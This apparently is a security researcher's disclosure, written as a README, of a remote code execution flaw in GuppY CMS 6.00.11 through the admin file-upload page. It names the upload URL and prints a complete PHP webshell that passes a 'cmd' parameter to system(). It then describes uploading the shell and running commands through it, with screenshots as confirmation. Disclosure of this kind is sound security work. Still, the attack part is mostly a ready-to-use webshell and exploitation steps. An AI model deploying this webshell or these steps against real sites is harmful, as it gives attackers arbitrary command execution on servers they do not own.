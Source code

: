 # GuppY CMS 6.00.11 Remote Code Execution via Upload File
## Author: Tuannq

In previous version (6.00.10), this CMS is vulnerable to RCE vulnerability via uploading malicious file.

It's said that, the vulnerability has been fixed in version 6.00.11. However, after testing, I found out that, I can still upload the PHP file, and execute command via the uploaded webshell.

> ![image](assets/0.png)GuppY version 6.00.11

Access the path: `http://localhost/guppy/admin/admin.php?lng=en&pg=upload`
Upload the PHP webshell.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

![image](assets/1.png)Access the uploaded file, and execute command via `cmd` parameter.

![image](assets/2.png)

View the response and confirm that the command is executed.

![image](assets/3.png)